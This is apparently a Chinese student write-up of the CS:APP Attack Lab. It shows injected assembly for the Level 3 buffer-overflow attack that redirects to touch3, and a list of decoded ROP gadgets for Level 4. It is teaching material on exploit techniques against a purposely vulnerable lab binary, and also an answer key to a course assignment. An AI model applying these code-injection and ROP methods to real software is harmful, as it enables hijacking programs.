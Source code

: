 **要求：**

 程序执行完`getbuf`后，执行`touch3`，而`touch3`的参数是对应`cookie`的字符串的地址。 

**答案：**

首先将`cookie`转换为字符串（利用 `man ascii`）：`59b997fa =>  |35|39|62|39|39|37|66|61|\0` ；

编写汇编指令部分（将%rdi的值设置为字符串地址，转移控制，与Level 2类似）：

```assembly
movq  $0x5561dca8,%rdi #%rsp+48（40字节buf，8字节ret地址）
pushq $0x4018fa        #转移控制至touch3
ret
```

由于调用`hexmatch`时需在栈中划分100字节左右的空间，为避免被覆盖，字符串必须放在`ret`地址后（类似于Level 2，`ret`地址指向栈顶，用于执行输入的指令）。

最终攻击字符串见`attack3.txt`、`attack3x.txt`。

## Part 2

### Level 4

**可能用到的gadget：**

```assembly
000000000040199a <getval_142>:
  40199a:	b8 fb 78 90 90       	mov    $0x909078fb,%eax
  40199f:	c3                   	retq   
#0x40199d:90 90 c3 => nop  nop  ret

00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   
#0x4019a2:48 89 c7 c3 => movq %rax,%rdi  ret

00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
#0x4019ab:58 90 c3 => popq %rax  nop  ret

00000000004019ae <setval_237>:
  4019ae:	c7 07 48 89 c7 c7    	movl   $0xc7c78948,(%rdi)
  4019b4:	c3                   	retq   
#不可行

00000000004019b5 <setval_424>:
  4019b5:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  4019bb:	c3                   	retq   
#不可行

00000000004019bc <setval_470>:
  4019bc:	c7 07 63 48 8d c7    	movl   $0xc78d4863,(%rdi)
  4019c2:	c3                   	retq   
#不可行

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   
#0x4019c5:48 89 c7 90 c3 => movq %rax,%rdi  nop  ret

00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq   
#0x4019cc:58 90 c3 => popq %rax  nop  ret
```
